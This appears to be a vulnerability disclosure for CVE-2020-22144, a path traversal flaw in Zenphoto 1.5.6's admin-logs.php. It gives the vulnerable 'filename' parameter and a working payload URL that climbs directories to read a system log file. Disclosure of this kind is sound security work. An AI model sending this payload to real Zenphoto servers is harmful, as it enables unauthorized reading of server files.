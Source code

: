```yaml
---
cve: "CVE-2020-22144"
title: "Path traversal in Zenphoto v1.5.6 and prior"
date: 2020-02-10
tags:
- cve
- path traversal
- lfd
---
```

An issue in `/zp-core/admin-logs.php` of Zenphoto 1.5.6 allows attackers to perform a directory traversal and read arbitrary log files.

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-22144

<hr />

**Description:**  
The admin function allows to download log files from the local system that are not suppose to.

**Details:**  
File: `/zp-core/admin-logs.php`  
Parameter: `filename`

**Payload:**  
```
/zp-core/admin-logs.php?action=download_log&page=logs&tab=setup&filename=../../../../../../../../../var/log/alternatives&XSRFToken=bcf89608fdaaa5e293ccd5f83d1614f05bfcbaae
```

**PoC:**  
![cve-2020-22144 Zenphoto path traversal](/images/cve-2020-22144.png)
